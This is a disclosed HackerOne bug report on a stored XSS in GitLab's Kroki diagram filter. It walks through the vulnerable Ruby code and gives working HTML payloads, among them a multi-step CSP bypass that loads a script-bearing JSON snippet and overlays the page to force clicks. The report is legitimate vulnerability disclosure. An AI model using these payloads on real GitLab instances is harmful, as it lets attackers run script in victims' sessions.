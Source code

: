 # Stored XSS via Kroki diagram

## Report Details
- **Report ID**: 1731349
- **URL**: https://hackerone.com/reports/1731349
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-12-17T10:52:08.221Z
- **Disclosed**: 2023-06-02T01:55:16.700Z

## Reporter
- **Username**: vakzz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary

If Kroki has been enabled, it's possible to craft a `pre` block so that arbitrary attributes can be injected into the resulting `img` tag. 

The css selector for finding a valid node to convert into a kroki diagram checks for either `pre[lang="#{diagram_type}"] > code` or for `pre > code[lang="#{diagram_type}"]`, but the diagram type is then set using `node.parent['lang'] || node['lang']`.

So if the `code` block has a valid lang (such as `wavedrom`) then the css selector will match, but if the parent `pre` also has a `lang` attribute then it will be the one that is used and can be an arbitrary value.

https://gitlab.com/gitlab-org/gitlab/-/blob/v15.6.2-ee/lib/banzai/filter/kroki_filter.rb#L17
```ruby
        diagram_selectors = ::Gitlab::Kroki.formats(settings)
                                .map do |diagram_type|
                                  %(pre[lang="#{diagram_type}"] > code,
                                  pre > code[lang="#{diagram_type}"])
                                end
                                .join(', ')

        xpath = Gitlab::Utils::Nokogiri.css_to_xpath(diagram_selectors)
        return doc unless doc.at_xpath(xpath)

        diagram_format = "svg"
        doc.xpath(xpath).each do |node|
          diagram_type = node.parent['lang'] || node['lang']
          diagram_src = node.content
          image_src = create_image_src(diagram_type, diagram_format, diagram_src)
```

The `diagram_type` is then used as-is to create a url, which is used to create an image with `<img src="#{image_src}" />`. So if a double quote is used in the `diagram_type` then arbitrary attributes can be added (apart from `class` as that is replaced just below).

https://gitlab.com/gitlab-org/gitlab/-/blob/v15.6.2-ee/lib/banzai/filter/kroki_filter.rb#L31
```ruby
          image_src = create_image_src(diagram_type, diagram_format, diagram_src)
          img_tag = Nokogiri::HTML::DocumentFragment.parse(%(<img src="#{image_src}" />))
          img_tag = img_tag.children.first

          next if img_tag.nil?

          lazy_load = diagram_src.length > MAX_CHARACTER_LIMIT
          img_tag.set_attribute('hidden', '') if lazy_load
          img_tag.set_attribute('class', 'js-render-kroki')

          img_tag.set_attribute('data-diagram', diagram_type)
          img_tag.set_attribute('data-diagram-src', "data:text/plain;base64,#{Base64.strict_encode64(diagram_src)}")

          node.parent.replace(img_tag)
```

### Steps to reproduce

1. On a self-hosted gitlab, ensure that `Kroki` is enabled at `/admin/application_settings/general`{F2080922} 
1. Create an issue and use the following payload `<a><pre lang='f/" onerror=alert(1) onload=alert(1) '><code lang="wavedrom">xss</code></pre></a>`
1. Reload/Visit the issue
1. If you do not have CSP enabled you will see the alert pop, otherwise you will see a CSP violation in the console such as `Refused to execute inline event handler because it violates the following Content Security Policy directive`

Since the `class` attribute cannot be set finding a CSP bypass was a bit tricky but there are still a few `data` based attributes that can be used, one of them being `data-diff-for-path` from `single_file_diff.js`. This is used as the path to load when the "expand diff" chevron is clicked allowing an arbitrary json file to be loaded and have jquery execute it to bypass the CSP.

https://gitlab.com/gitlab-org/gitlab/-/blob/v15.6.2-ee/app/assets/javascripts/single_file_diff.js#L77
```javascript
    return axios
      .get(this.diffForPath)
      .then(({ data }) => {
        this.loadingContent.hide();
        if (data.html) {
          this.content = $(data.html);
```

Since clicking the chevron is a bit unlikely, we can inject the `style` attribute to make the kroki overlay the entire page,  which when clicked injects some styles to make the `chevron` now overlay the entire page. 

1. Enable CSP on gitlab - https://docs.gitlab.com/omnibus/settings/configuration.html#set-a-content-security-policy
1. Create a public snippet  with a json file `aaa.json` containing `{"html":"<script>alert(document.domain)</script>"}`, then open the `raw` version and make note of the path.
1. Create a new project and commit a readme
1. View the individual commit (eg http://gitlab.wbowling.info/root/kroki1/-/commit/f4170b940214abeebc6fd7503f9500c72c358613)
1. Add a comment to a line of the commit using the following payload, replacing `data-diff-for-path` with the path to your json file noted above:
```html
<a>
    <pre lang='/" data-diff-for-path=/root/kroki1/-/snippets/9/raw/main/aaa.json '>
        <code lang="wavedrom">csp</code>
    </pre>
    <pre
        lang='/" id=stage1 style="position:absolute;max-width:10000px;left:-1000px;top:-1000px;width:10000px;height:10000px;z-index:10000;" data-triggers="click" data-toggle=popover data-html=true data-title="aaa&lt;style&gt;#stage1{pointer-events:none}svg.chevron-right{position:absolute;max-width:10000px;left:-1000px;top:-1000px !important;width:10000px;height:10000px;z-index:10001;}&lt;/style&gt;bbb" data-content=ggg '>
    <code lang="wavedrom">
    bypass
    </code>
    </pre>
</a>
```
1. Reload the page
1. Clicking anywhere on the page twice will trigger the xss

{F2080931}

### Impact

Allows arbitrary javascript to be executed when a victim views a comment 

### What is the current *bug* behavior?

The the lang attribute from the parent node is always used even if the css selector matches the child node

### What is the expected *correct* behavior?

The lang attribute should only be used if it is actually valid. The `img` tag should also be created using `content_tag` instead of string concatination.

### Output of checks
#### Results of GitLab environment info

```
$ sudo gitlab-rake gitlab:env:info

System information
System:		Ubuntu 20.04
Proxy:		no
Current User:	git
Using RVM:	no
Ruby Version:	2.7.6p219
Gem Version:	3.1.6
Bundler Version:2.3.15
Rake Version:	13.0.6
Redis Version:	6.2.7
Sidekiq Version:6.5.7
Go Version:	unknown

GitLab information
Version:	15.6.2-ee
Revision:	08b668e8740
Directory:	/opt/gitlab/embedded/service/gitlab-rails
DB Adapter:	PostgreSQL
DB Version:	12.12
URL:		http://gitlab.wbowling.info
HTTP Clone URL:	http://gitlab.wbowling.info/some-group/some-project.git
SSH Clone URL:	git@gitlab.wbowling.info:some-group/some-project.git
Elasticsearch:	no
Geo:		no
Using LDAP:	no
Using Omniauth:	yes
Omniauth Providers:

GitLab Shell
Version:	14.13.0
Repository storage paths:
- default: 	/var/opt/gitlab/git-data/repositories
GitLab Shell path:		/opt/gitlab/embedded/service/gitlab-shell
```

## Impact
Allows arbitrary javascript to be executed when a victim views a comment 


## Attachments
- image.png
- gitlab-csp.mp4
